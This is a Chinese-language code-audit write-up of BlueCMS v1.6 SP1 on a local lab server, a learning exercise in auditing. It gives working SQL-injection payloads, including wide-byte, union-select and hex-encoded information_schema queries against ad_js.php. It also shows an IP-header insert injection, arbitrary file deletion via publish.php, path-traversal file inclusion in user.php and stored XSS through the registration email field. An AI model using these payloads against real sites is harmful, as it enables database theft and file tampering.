## bluecmsV1.6 SP1
- [前言](#前言)
- [环境准备](#环境准备)
- [审计过程](#审计过程)
	- [SQL注入](#SQL注入)
		- [ab_js.php](#ab_js.php)
		- [ann.php](#ann.php)
		- [index.php](#index.php)
		- [guest_book.php](#guest_book.php)
	- [任意文件读取/删除/修改漏洞](#任意文件读取/删除/修改漏洞)
		- [publish.php](#publish.php)
		- [user.php](#user.php)
	- [XSS漏洞](#XSS漏洞)
		- [user.php](#user.php)

# 前言

- 代码审计入门cms-bluecms
- 开始日期：2021-5.26
- 结束日期: 2021-5.27

## 环境准备
- PHPStudy
- Bluecms v1.6 SP1源码
    - 下载地址：http://down.chinaz.com/soft/26181.htm
- Seay源代码审计工具

**环境搭建**

将bluecms的upload里面所有源码放到网站www目录下,访问地址http://127.0.0.1/install，一路继续即可，注意数据库用户和密码改为自己的






## 审计过程

首先用seay源代码审计系统跑一下自动审计，如图：


## SQL注入
### ab_js.php

首先双击第一个注入点ad_js.php，自动定位到该条语句。内容如下：


```php
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

- 可见$ad_id存在数字型注入，尝试寻找这个变量的输入点与输出点。

```php
# 输入点
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
...
# 输出点
echo "<!--\r\ndocument.write(\"".$ad_content."\");\r\n-->\r\n";
```

**漏洞利用**

- 这里有个小彩蛋，网站是用gbk编码，可用宽字节注入
`http://127.0.0.1/ad_js.php?ad_id=1%df%27`

首先尝试测试有多少字段：payload如下：
```bash
http://127.0.0.1/ad_js.php?ad_id=1 order by 8
```

这里会报错，说明字段数为7，尝试寻找输出点(也就是指exp_content字段在哪一列)

```bash
http://127.0.0.1/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,7
```



可以看见exp_content字段显示在第七列，接着是一系列的爆表库了，我们这里用sqlmap跑一下



手工注入:
```
http://127.0.0.1/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,GROUP_CONCAT(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
```

这里转换为十六进制原因是这里有个全局过滤，会对输入的变量含有单引号双引号等会过滤，位置在：

```php
require_once dirname(__FILE__) . '/include/common.inc.php';
```

查看common.inc.php文件，有一段代码如下：
```php
if(!get_magic_quotes_gpc())
{
	$_POST = deep_addslashes($_POST);
	$_GET = deep_addslashes($_GET);
	$_COOKIES = deep_addslashes($_COOKIES);
	$_REQUEST = deep_addslashes($_REQUEST);
}
```

也就是说get_magic_quotes_gpc为off的时候会触发POST、GET、COOKIE、REQUEST参数进行过滤，运用deep_addslashes函数过滤。追踪一下该函数：
```php
function deep_addslashes($str)
{
	if(is_array($str))
	{
		foreach($str as $key=>$val)
		{
			$str[$key] = deep_addslashes($val);
		}
	}
	else
	{
		$str = addslashes($str);
	}
	return $str;
}
```

这里是addslashes函数的一个升级版，增加对数组的深层过滤。但我们刚刚SQL注入的是数字型注入，用不到引号。因此这个防范不了数字型注入。

### ann.php

接着看第二可疑文件ann.php
```php
$current_act = $db->getfirst("SELECT cat_name FROM ".table('ann_cat')." WHERE cid=".$cid);
```

追踪一下$cid变量在第14行:
```php
$cid = !empty($_REQUEST['cid']) ? intval($_REQUEST['cid']) : 1;
```

可见cid用了intval()整型函数过滤，杜绝了数字型的注入，由于还有个全局过滤设置，因此无法注入。

同理这里还有另外一个sql语句，也用了intval函数。其它的文件也存在类似intval过滤，就不多讲这类文件了。

### index.php

```php
$result2 = $db->query("SELECT * FROM ".table('article')." WHERE cid=$row1[cat_id] and is_recommend = 1 and is_check = 1 ORDER BY id DESC LIMIT 7");
```

溯源``$row1[cat_id]``
```php
while($row1 = $db->fetch_array($result1))
```

溯源`$result1`
```php
$result1 = $db->query("SELECT * FROM ".table('arc_cat')." ORDER BY show_order");
```

很明显。这里没有什么能控制的输入变量。

### guest_book.php

说是这里有个IP注入，全局搜索了一下，在/include/common.ini.php处，有一段代码如下:
```
$online_ip = getip();
```

查看这个getip()定义是
```php
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP'); 
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR')) 
	{ 
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED')) 
	{ 
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR'); 
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{ 
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```

很明显这里有个IP注入，寻找是否存在可控制的输入变量，全局搜索$online_ip，在guest_book.php处有一段SQL语句如下：

```php
$sql = "INSERT INTO " . table('guest_book') . " (id, rid, user_id, add_time, ip, content) VALUES ('', '$rid', '$user_id', '$timestamp', '$online_ip', '$content')";
```

很明显地这里有insert注入，在PHP5以后，全局SQL防注入对$_SERVER获取的header字段不会受到gpc的影响，在header注入中最常见也是程序员经常会忽略的地方就是user-agent,referer以及client-ip/X-Forwarded-For。

访问http://127.0.0.1/guest_book.php,有留言板



## 任意文件读取/删除/修改漏洞
### publish.php

```php
elseif($act == 'del_pic')
{
 	$id = $_REQUEST['id'];
 	$db->query("DELETE FROM ".table('post_pic').
 				" WHERE pic_path='$id'");
 	if(file_exists(BLUE_ROOT.$id))
 	{
 		@unlink(BLUE_ROOT.$id);
 	}
}
```
可见这一段是删掉文件，尝试在当前目录新建text.txt,访问http://127.0.0.1/publish.php?act=del_pic&id=text.txt

但这里前提是要先登录，注册一个普通用户即可，否则无法删掉会要求你先登录才能执行操作。


### user.php

```php
include 'include/payment/'.$_POST['pay']."/index.php";
```

`$_POST['pay']`变量未经过滤。只有全局addslashes限制，但只限制单双引号、反斜杆和NULL，对文件包含不影响。构造如下payload：

```
http://127.0.0.1/user.php?act=pay

POST:../../..
```



即可包含根目录的index.php，若要包含任意文件，可用件路径长度截断(php版本小于等于5.2) ,如用字符.或者/.或者./来截断，造成文件包含漏洞，这样可以包含任意文件。

```
Windows 259个字节
Linux 4096个字节
```

这些实战用处不大。个人觉得。


## XSS漏洞
### user.php 

seay审计系统好像是没有扫描XSS这一功能，用Fortify SCA工具scan了一下，发现xss报告的是真的多的离谱。这里直接审计user.php,在第134行有:
```php
elseif($act == 'do_reg'){
	$user_name 		=	!empty($_POST['user_name']) ? trim($_POST['user_name']) : '';
	$pwd       		= 	!empty($_POST['pwd']) ? trim($_POST['pwd']) : '';
	$pwd1 	   		= 	!empty($_POST['pwd1']) ? trim($_POST['pwd1']) : '';
	$email     		= 	!empty($_POST['email']) ? trim($_POST['email']) : '';
	$safecode  		= 	!empty($_POST['safecode']) ? trim($_POST['safecode']) : '';
	$from = !empty($from) ? base64_decode($from) : 'user.php';

	if(strlen($user_name) < 4 || strlen($user_name) > 16){
		showmsg('�û����ַ����Ȳ���');
	}
	if(strlen($pwd) < 6){
		showmsg('���벻������6���ַ�');
	}
	if($pwd != $pwd1){
		showmsg('�����������벻һ��');
	}
	if(strtolower($safecode) != strtolower($_SESSION['safecode'])){
		showmsg('��֤�����');
	}
	if($db->getone("SELECT * FROM ".table('user')." WHERE user_name='$user_name'")){
		showmsg('���û����Ѵ���');
	}
	if($db->getone("SELECT * FROM ".table('admin')." WHERE admin_name='$user_name'")){
		showmsg('���û����Ѵ���');
	}
	$sql = "INSERT INTO ".table('user')." (user_id, user_name, pwd, email, reg_time, last_login_time) VALUES ('', '$user_name', md5('$pwd'), '$email', '$timestamp', '$timestamp')";
```

也就是注册这一部分，可以发现除了email其它的有长度限制不能构造xss语句，email直接POST到数据库中。



